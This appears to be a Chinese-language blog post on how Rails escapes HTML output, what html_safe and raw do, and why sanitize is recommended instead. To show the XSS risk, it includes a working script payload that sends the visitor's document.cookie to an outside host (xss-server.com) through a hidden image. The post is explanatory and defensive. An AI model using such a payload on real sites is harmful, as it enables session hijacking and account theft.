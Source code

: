 ```yaml
---
layout: post
title: Rails中的html string
---
```


在html语言中，**'"<>&**这个5个符号有着特殊的作用，如定义标签、属性，嵌入JS代码等，但是有时候又需要显示这些字符。那么如何区分呢？

显示的时候转义：HTML_ESCAPE = { '&' => '&amp;',  '>' => '&gt;',   '<' => '&lt;', '"' => '&quot;', "'" => '&#39;' }


在view中，

```
<%= <script>"alert('ok')"</script> %>  #=> &lt;script&gt;alert(&#39;ok&#39;)&lt;/script&gt;

<%= <script>"alert('ok')"</script>.html_safe %>  #=> <script>"alert('ok')"</script>
```

在Rails中，默认会将输出显示string转码，即调用html_escape；

而如果加上**html_safe**就是认为这个string是安全的，就不去转码而直接写入的html页面里，html_safe和<%= raw "..." %>作用基本相同。

那么这么就是很危险的，因为如果是显示用户的输入，那么用户就可以嵌入一段JS代码，进行XSS攻击了，效果如下：

```
<%= "xss: <script>var img = document.createElement('img');img.style.display='none';img.src='http://xss-server.com/?cookie='+document.cookie;document.getElementsByTagName('body')[0].appendChild(img);</script>".html_safe %>
```

上面就把当前用户的cookie发送走了。

如果真需要不转义那些字符，比如想嵌入一个自己的个性化样式，那么请用sanitize。

如下，所谓调用html_safe，其实是创建一个SafeBuffer实例，然后有一个属性@html_safe为true，这样就不用被html_escape了。

```
class String
  # Marks a string as trusted safe. It will be inserted into HTML with no
  # additional escaping performed. It is your responsibilty to ensure that the
  # string contains no malicious content. This method is equivalent to the
  # `raw` helper in views. It is recommended that you use `sanitize` instead of
  # this method. It should never be called on user input.
  def html_safe
    ActiveSupport::SafeBuffer.new(self)
  end
end
```

# 参考

* https://github.com/rails/rails/blob/master/activesupport/lib/active_support/core_ext/string/output_safety.rb
* https://ruby-china.org/topics/16633